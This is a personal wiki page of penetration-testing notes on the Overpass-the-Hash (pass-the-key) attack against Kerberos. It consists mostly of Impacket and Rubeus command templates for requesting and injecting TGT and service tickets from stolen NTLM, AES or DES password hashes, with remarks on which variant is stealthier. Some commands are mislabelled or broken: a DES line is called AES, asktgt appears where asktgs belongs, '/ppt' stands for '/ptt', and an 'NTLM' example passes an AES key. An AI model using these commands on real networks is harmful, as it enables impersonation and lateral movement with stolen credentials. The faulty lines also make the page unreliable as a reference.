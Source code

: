 public:: true
alias:: pass-the-key

- This technique is also knows as *pass-the-key (PTK)*. It's similar to [[Pass-The-Ticket]], but it's meant to be use to request [[Kerberos]] tickets when you only know the hash of the user's password.
- Request a TGT ticket with the user's password hash
	- From Linux
		- With [[Impacket GetTGT]]
			- With user's NTLM hash
			  ```bash
			  impacket-getTGT <domain_name>/<user_name> -hashes [lm_hash]:<ntlm_hash>
			  ```
			- With user's AES hash *(This is probably more stealth because it's used by default by Microsoft too)*
			  ```bash
			  impacket-getTGT <domain_name>/<user_name> -aesKey <aes_key>
			  ```
	- From Windows
		- With [[Rubeus]]
		  id:: 656874c1-93fc-4870-8b04-b6413ed64755
			- With user's NTLM hash
			  ```powershell
			  .\Rubeus.exe asktgt /domain:<domain_name> /user:<user_name> /rc4:<ntlm_hash> /ptt
			  ```
				- The `/ptt` flag applies the resulting ticket to the current logon session.
			- With user's AES128 hash
			  ```powershell
			  .\Rubeus.exe asktgt /domain:<domain_name> /user:<user_name> /aes128:<aes128_hash> /ptt
			  ```
			- With user's AES hash *(This is probably more stealth because it's used by default by Microsoft too)*
			  ```powershell
			  .\Rubeus.exe asktgt /domain:<domain_name> /user:<user_name> /aes256:<aes256_hash> /ptt
			  ```
			- With user's AES hash *(This is probably more stealth because it's used by default by Microsoft too)*
			  ```powershell
			  .\Rubeus.exe asktgt /domain:<domain_name> /user:<user_name> /des:<des_hash> /ptt
			  ```
- Request a TGS ticket with the user's password hash
	- From Linux
	- From Windows
		- With [[Rubeus]]
			- You first need to obtain a valid TGT, to get it via Overpass-The-Hash [see above](((656874c1-93fc-4870-8b04-b6413ed64755))).
			  ```powershell
			  Rubeus.exe asktgt /ticket:<base64_TGT> /service:<SPN_to_request_TGS_for> /ppt
			  ```
				- The `/ptt` flag applies the resulting ticket to the current logon session.
				- For all option see the official [docs](https://github.com/GhostPack/Rubeus#asktgs)
		- From Linux
			- With [[Impacket getST]]
				- With user's NTLM hash
				  ```bash
				  impacket-getST -SPN <SPN_to_request_TGS_for> -hashes <lm:nt> contoso.com/user
				  ```
				- With user's NTLM hash
				  ```bash
				  impacket-getST -SPN <SPN_to_request_TGS_for> -aesKey <hex_aes_key> contoso.com/user
				  ```
